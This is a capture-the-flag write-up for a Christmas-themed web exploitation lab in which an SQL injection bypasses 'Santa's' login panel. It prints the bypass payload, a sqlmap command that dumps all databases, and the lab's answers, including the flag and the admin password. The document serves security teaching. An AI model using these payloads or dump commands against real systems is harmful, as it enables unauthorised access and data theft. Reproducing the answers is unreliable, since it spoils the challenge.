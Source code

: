 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2868%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2840%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2863%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2819%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2846%29.png)

![](../.gitbook/assets/image%20%2813%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2824%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2864%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%282%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

